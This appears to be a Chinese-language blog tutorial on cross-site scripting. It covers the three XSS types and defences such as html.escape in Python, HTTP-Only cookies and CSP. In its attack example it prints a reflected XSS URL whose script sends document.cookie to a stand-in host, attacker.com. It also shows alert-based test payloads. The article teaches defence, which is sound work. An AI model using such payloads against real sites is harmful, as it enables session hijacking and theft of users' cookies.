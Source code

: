```yaml
---
layout: post
title:  python网络安全 XSS
date:   2025-09-16 09:01:00 +0800
image: 09.jpg
tags: 
    - python
    - security
---
```


### XSS (跨站脚本攻击)

**XSS** 是一种注入攻击，攻击者通过在网页中注入恶意客户端脚本（通常是 JavaScript），来攻击浏览该网页的其他用户。这种情况通常发生在网站没有对用户输入进行适当验证时。恶意脚本不会被当作普通文本，而是会被受害者的浏览器执行，就像它是网站本身的合法代码一样。

一个常见的例子是网站的评论区。攻击者可以发布一条包含恶意脚本的评论，例如 `<script>alert(document.cookie)</script>`。如果网站没有对这个输入进行净化处理，这条脚本就会被存储在数据库中。当其他用户浏览这个评论页面时，他们的浏览器就会执行这条脚本，从而可能盗取他们的 **cookie**。这些 cookie 通常包含 **会话令牌**，攻击者可以通过它劫持受害者的登录会话，而不需要知道他们的密码。

### 什么是 XSS？

**XSS** 是一种注入攻击，攻击者通过在网页中注入恶意脚本（通常是 JavaScript），当用户浏览该网页时，这些脚本会在用户的浏览器上执行。这些恶意脚本可以窃取用户的 **Cookie**、会话令牌，甚至修改网页内容，从而实现各种恶意行为。

简而言之，XSS 的核心是：**信任**。攻击者利用网站对用户输入的不信任，成功地让用户的浏览器信任并执行了攻击者提供的代码。

#### XSS 的分类

XSS 攻击主要分为三种类型：

1.  **存储型 XSS（Stored XSS）**：这是最危险的一种。攻击者将恶意脚本提交到网站的服务器，并永久存储在数据库中（比如博客评论、论坛帖子）。当其他用户访问包含该内容的页面时，恶意脚本就会被执行。由于脚本存储在服务器上，它会持续影响每个访问页面的用户。

2.  **反射型 XSS（Reflected XSS）**：这种攻击需要用户点击一个恶意链接。攻击者构造一个包含恶意脚本的 URL，并诱骗用户点击。当用户点击链接后，恶意脚本会作为请求参数发送到服务器，服务器未经过滤就将脚本反射（反射）回浏览器，导致脚本在用户浏览器中执行。

3.  **DOM 型 XSS（DOM-based XSS）**：这种攻击不涉及服务器。恶意脚本在用户的浏览器中，通过修改页面的 **DOM（文档对象模型）** 结构而执行。攻击者通常利用网站 JavaScript 代码中的漏洞，将恶意数据作为参数传递给客户端脚本。由于整个过程发生在浏览器端，服务器端通常难以检测到这种攻击。

### XSS 攻击示例

让我们以一个反射型 XSS 为例，假设一个搜索页面没有对搜索参数进行过滤：
`http://example.com/search?q=苹果手机`

如果攻击者将 URL 修改为：
`http://example.com/search?q=<script>alert('XSS!')</script>`

当用户访问这个 URL 时，页面会将 `<script>alert('XSS!')</script>` 直接显示出来，导致浏览器弹出一个 `XSS!` 的警告框。更恶劣的攻击会窃取用户的 Cookie：
`http://example.com/search?q=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`

这个恶意脚本会将用户的 `document.cookie` 发送到攻击者的服务器，从而实现会话劫持。

### XSS 的防御

防御 XSS 的核心原则是：**永远不要信任任何来自用户的数据**。对用户输入的数据进行严格的过滤和编码，是防止 XSS 的关键。

#### 1\. 输入验证（Input Validation）

验证用户输入是否符合预期的格式和内容。例如，如果一个输入框只应包含数字，就应过滤掉所有非数字字符。

#### 2\. 输出编码（Output Encoding）

这是最有效且最重要的方法。在将用户输入的数据输出到 HTML 页面之前，必须对所有特殊字符进行 **转义** 或 **编码**。例如，将 `<` 转换为 `&lt;`，`>` 转换为 `&gt;`。这样，浏览器会将这些字符视为普通文本，而不是 HTML 标签或脚本。

**Python 防御示例：**

我们可以使用 `html.escape()` 函数来对字符串进行编码。

```python
import html

user_input = "<script>alert('XSS!')</script>"

# 对用户输入进行编码
safe_output = html.escape(user_input)

print("原始输入：", user_input)
print("安全输出：", safe_output)
# 浏览器会显示 <script>alert('XSS!')</script>，而不是执行它
```

输出：

```
原始输入： <script>alert('XSS!')</script>
安全输出： &lt;script&gt;alert(&#x27;XSS!&#x27;)&lt;/script&gt;
```

#### 3\. 设置 HTTP-Only Cookie

为了防止 XSS 攻击窃取用户的 Cookie，应将敏感的会话 Cookie 设置为 `HTTP-Only`。这样，JavaScript 代码将无法通过 `document.cookie` 访问这些 Cookie，极大地限制了攻击者的能力。

#### 4\. 内容安全策略（CSP, Content Security Policy）

**CSP** 是一个强大的安全机制，它允许网站管理员定义一个白名单，明确指定哪些域名的资源（如脚本、样式表）可以被浏览器执行或加载。即使攻击者成功注入了恶意脚本，如果该脚本的来源不在白名单内，浏览器也会拒绝执行它。
